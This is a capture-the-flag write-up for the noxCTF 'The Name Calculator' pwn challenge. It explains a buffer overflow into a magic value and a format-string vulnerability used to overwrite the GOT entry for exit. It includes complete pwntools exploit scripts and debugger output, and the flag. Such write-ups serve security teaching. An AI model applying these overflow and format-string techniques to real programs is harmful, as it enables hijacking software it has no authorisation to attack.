






# Writeup - noxCTF - The Name Calculator ("Pwn" Category)

## Instructions:
You can calculate almost everything, why not calculate names?

nc chal.noxale.com 5678

*[A binary file was attached as well]*

## Solution:
We connect to the supplied address and receive the following output:

```console
$ nc chal.noxale.com 5678
What is your name?
```

We can then enter text, and the response is:
```console
$ nc chal.noxale.com 5678
What is your name?
Fake Name
I've heard better
```

Let's take a look at the assembly:



The program reads up to 0x20 (32) bytes of the the user input into the `input` buffer, then compares a different buffer (`magic_number`) to a magic value (0x6A4B825) and if they are equal, jumps to the `secretFunc`. Otherwise, we get the standard output ("I've heard better").

What's the relation between `input` and `magic_number`?

```
input= byte ptr -2Ch
magic_number= dword ptr -10h
var_C= dword ptr -0Ch
argc= dword ptr  8
argv= dword ptr  0Ch
envp= dword ptr  10h
```

So `input` is 0x2C - 0x10 = 28 bytes long, and `magic_number` is another 4 bytes long - exactly enough to easily overflow `input` when reading the input from the user.

Therefore, our exploit so far will be:

```python
from pwn import *

MAGIC_VALUE = 0x6A4B825

p = process("./TheNameCalculator")
p.recvuntil("name?")
p.send("A" * 28 + p32(MAGIC_VALUE))
p.interactive()
```

And running it produces:

```console
root@kali:/media/sf_CTFs/noxale/name_calc# python exploit.py 
[+] Starting local process './TheNameCalculator': pid 30144
[*] Switching to interactive mode

Say that again please
$  
```

At this point, we can enter another string. The output, for example, will be:

```console
Say that again please
$ Fake Name
Your name was encrypted using the best encryption in the world
This is your new name: \x15sS\x16x\x04I:
[*] Process './TheNameCalculator' stopped with exit code 0 (pid 30144)
[*] Got EOF while reading in interactive
```

The next step would be to analyze `secretFunc`.

The function starts with the initialization of some local variables:


It then moves on to zero the `input` buffer:



After that, it performs some bookkeeping related to the stack canary and the old return address, meaning that it would be hard to hijack the flow using a buffer overflow or overriding the return address of the current function.

It reads 27 bytes into the local `input` buffer, and then adds the NULL terminator.

Then comes the interesting part:



It loops over the input, encrypts it, and outputs it to the user as the "new name". 
A closer look shows that the new name is outputted using `printf`, where the format string is `input` itself - exposing the program to a Format String vulnerability.

We control the input, but the input is encrypted before being passed to `printf`. Therefore, we will have to supply an input which only after "encrypted" will look like a format string. This is possible, since the "encryption" is achieved using XORs between the input and the local `magic_number` variable initialized earlier.

The encryption algorithm can be translated to the following:
```c
int magic_number = 0x5F7B4153;
char* pInputPtr = pInput;
while (&pInput[bytes_read - 4] != pInputPtr)
{
    *pInputPtr ^= magic_number;
    pInputPtr++;
}
```

Translated to Python:

```python
MAGIC_XOR   = 0x5F7B4153
def encrypt(plaintext):
	b = bytearray(plaintext)
	magic = p32(MAGIC_XOR)
	for i in xrange(len(b) - 4):
		for j in xrange(len(magic)):
			b[i + j] ^= ord(magic[j])
	return b
```

Since the encryption is achieved via XOR, it works both ways - we can encrypt our format string with this algorithm before we send it, and the encryption performed in the program will bring it back to its original form.

The next step would be to decide what we want to do with the format string vulnerability. 

That "what?" is pretty obvious from exploring the assembly - we have a `superSecretFunc` that outputs the flag, and we want to jump to it:



The "how?" is a bit more complicated, given the stack canary and return address verification implemented in `secretFunc`. We could try to override the `fflush` pointer, which is called right after our vulnerable `printf`, buf `fflush` is also used to output the flag in `superSecretFunc`. 
Instead, we will hijack `exit` which is called from `main` after `secretFunc` returns:



We can use pwntools to get the address of the GOT entry for `exit`:

```python
PROC_NAME = "./TheNameCalculator"
e = ELF(PROC_NAME)
got_exit_addr = e.got['exit']
log.info("got_exit_addr = {}".format(hex(got_exit_addr)))
# Returns: got_exit_addr = 0x804a024
```

And in order to find the format offset, we use pwntools as well:

```python
# This function is used to leak the stack using the format string 
# vulnerability.
def send_payload(payload, proc = None):
	log.info("payload = {} (len = {})".format(repr(payload), len(payload)))
	if proc is None:
		proc = process(PROC_NAME)
	proc.recvuntil("name?")
	proc.send("X" * 28 + p32(MAGIC_VALUE))
	proc.recvuntil("again")
	enc_payload = encrypt(payload)
	proc.send(enc_payload)
	proc.recvuntil("name: ")
	ret = proc.recvall()
	log.info("return = {}".format(repr(ret)))
	return ret

# Since the pwntools FmtStr class uses a marker length of 20, and our input 
# is limited to 27 bytes, we need to shorten the marker to make room for
# the rest of the payload. This option isn't provided by pwntools (yet),
# so we just override the appropriate function with using inheritance. 
class FmtStrEx(FmtStr):
	def find_offset(self):
		marker_len = 8
		marker = cyclic(marker_len)
		for off in range(1,1000):
			leak = self.leak_stack(off, marker)
			leak = pack(leak)
	
			pad = cyclic_find(leak)
			if pad >= 0 and pad < marker_len:
				return off, pad
	        else:
			log.error("Could not find offset to format string on stack")
		return None, None

f = FmtStrEx(execute_fmt=send_payload)
# Prints: [*] Found format string offset: 12
```

So we want to write to address 0x804a024 (the GOT `exit` address) the value of the `superSecretFunc` entry point (0x08048596).
Since `exit` wasn't called yet, 0x804a024 still contains its original value which is 0x8048476 (a pointer to the lazy binding logic):

```
root@kali:/media/sf_CTFs/noxale/name_calc# gdb ./TheNameCalculator
[...]
Reading symbols from ./TheNameCalculator...(no debugging symbols found)...done.
>>> p/x *0x0804A024
$1 = 0x8048476
>>> disas $1,+10
Dump of assembler code from 0x8048476 to 0x8048480:
   0x08048476 <exit@plt+6>:	push   0x30
   0x0804847b <exit@plt+11>:	jmp    0x8048400
End of assembler dump.
>>> 
```

(You can read a bit more about the GOT's lazy binding [here](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html))

Therefore, we just need to override the first WORD - the second word (0x0804) already contains the value we want.

The final part of the exploit therefore is:

```python
superSecretFunc_addr = e.symbols['superSecretFunc']
log.info("superSecretFunc = {}".format(hex(superSecretFunc_addr)))

exploit = bytearray(p32(got_exit_addr))
exploit += "%{}x".format( (superSecretFunc_addr) & (0xFFFF) - (len(exploit)) ) + "%{}$hn".format(f.offset)
log.info("exploit = {} (len = {})".format(exploit, len(exploit)))

print send_payload(exploit, remote('chal.noxale.com', 5678))
```

The flag: **noxCTF{M1nd_7he_Input}**

The complete exploit:

```python
from pwn import *

PROC_NAME = "./TheNameCalculator"

MAGIC_VALUE = 0x6A4B825
MAGIC_XOR   = 0x5F7B4153

# Since the pwntools FmtStr class uses a marker length of 20, and our input 
# is limited to 27 bytes, we need to shorten the marker to make room for
# the rest of the payload. This option isn't provided by pwntools (yet),
# so we just override the appropriate function with using inheritance. 
class FmtStrEx(FmtStr):
	def find_offset(self):
		marker_len = 8
		marker = cyclic(marker_len)
		for off in range(1,1000):
			leak = self.leak_stack(off, marker)
			leak = pack(leak)
	
			pad = cyclic_find(leak)
			if pad >= 0 and pad < marker_len:
				return off, pad
	        else:
			log.error("Could not find offset to format string on stack")
		return None, None

def encrypt(plaintext):
	b = bytearray(plaintext)
	magic = p32(MAGIC_XOR)
	for i in xrange(len(b) - 4):
		for j in xrange(len(magic)):
			b[i + j] ^= ord(magic[j])
	return b


def send_payload(payload, proc = None):
	log.info("payload = {} (len = {})".format(repr(payload), len(payload)))
	if proc is None:
		proc = process(PROC_NAME)
	proc.recvuntil("name?")
	proc.send("X" * 28 + p32(MAGIC_VALUE))
	proc.recvuntil("again")
	enc_payload = encrypt(payload)
	proc.send(enc_payload)
	proc.recvuntil("name: ")
	ret = proc.recvall()
	log.info("return = {}".format(repr(ret)))
	return ret


e = ELF(PROC_NAME)
got_exit_addr = e.got['exit']
log.info("got_exit_addr = {}".format(hex(got_exit_addr)))
superSecretFunc_addr = e.symbols['superSecretFunc']
log.info("superSecretFunc = {}".format(hex(superSecretFunc_addr)))

f = FmtStrEx(execute_fmt=send_payload)

exploit = bytearray(p32(got_exit_addr))
exploit += "%{}x".format( (superSecretFunc_addr) & (0xFFFF) - (len(exploit)) ) + "%{}$hn".format(f.offset)
log.info("exploit = {} (len = {})".format(exploit, len(exploit)))

print send_payload(exploit, remote('chal.noxale.com', 5678))
```